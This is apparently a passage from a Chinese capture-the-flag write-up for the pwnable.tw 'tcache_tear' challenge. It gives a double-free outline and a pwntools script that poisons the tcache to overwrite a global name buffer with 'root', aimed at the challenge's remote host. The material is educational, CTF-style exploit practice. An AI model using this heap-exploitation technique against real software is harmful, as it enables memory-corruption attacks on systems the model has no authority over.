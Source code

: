 ```c
a = malloc(0x20);

free(a);
free(a);

malloc(0x20,addr)
malloc(0x20)
malloc(0x20,data)
```

我们来测试一下，利用tcache修改我们的名字：

```python
#!/usr/bin/env python3

from pwn import *
import sys, time

context(arch='amd64',os='linux',log_level='debug')

debug = 1
if debug:
	elf = ELF("./tcache_tear")
	libc = ELF("./libc-tcache.so")
	io = process(elf.path)
else:
	elf = ELF("./tcache_tear")
	libc = ELF("./libc-tcache.so")
	io = remote("chall.pwnable.tw",10207)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

init = lambda name : sla("Name:",name)
malloc = lambda size,data : (sla("choice :","1"),sla("Size:", str(size)),sla("Data:",data))
free = lambda : sla("choice :","2")
info = lambda : sla("choice :","3")

len = 0x50
name_bss = 0x602060

init("0bs3rver")
malloc(len,"aaa")
free()
free()
malloc(len,p64(name_bss))
malloc(len,"aaa")
malloc(len,"root")
info()
io.interactive()
```
